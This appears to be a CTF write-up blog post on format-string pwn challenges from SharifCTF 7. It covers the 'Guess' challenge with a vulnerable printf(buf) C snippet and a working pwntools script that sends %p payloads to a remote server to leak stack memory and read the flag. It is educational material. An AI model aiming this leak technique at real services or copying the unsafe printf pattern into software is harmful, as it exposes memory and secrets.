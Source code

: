 ```yaml
---
layout: post
title: "SharifCTF 7: Guess (pwn 50), Persian (pwn 150), NoMoreBlind (pwn 200)"
author: f0rki
categories: writeup
tags: [cat/pwn, tool/pwntools, vuln/fmtstr]
---
```


## Format Strings Everywhere

The first three pwn challenges were all about format strings. They are very
similar as they all basically do nothing more than:

```c
char buf[N];
fgets(&buf, N, stdin);
printf(buf);
```

...and differ only in some minor details. We weren't given any binaries for the
challenges so it was rather hard to exploit this obvious bugs, because we had 
neither the binary or the libc.


## Write-up Guess

This one was pretty easy. The flag was stored on the stack. With a little
python and pwntools scripting we can easily dump the stack contents and just
read the flag.

```python
#!/usr/bin/env python

from pwn import *  # NOQA

vp = remote("ctf.sharif.edu", 54517)


def dump_stack(at=None, n=2048):
    pl = ""
    if at:
        for i in range(n // 8):
            pl += "%{}$p.".format(at + i)
    else:
        pl = ".%p" * (n // 8)
    vp.sendline(pl)
    vp.readline()
    x = vp.readline().strip().strip(".")
    stack_leak = x.split(".")[1:]
    stack_leak = map(lambda y: 0 if "nil" in y else int(y, 16), stack_leak)
    return stack_leak


sl = dump_stack()
# log.info("\n".join(map(hex, sl)))
slb = "".join(map(p64, sl))
log.info(hexdump(slb))

x = slb[slb.find("SharifCTF{"):]
x = x[:(x.find("}") + 1)]
log.info("flag is:\n" + x)

vp.close()
```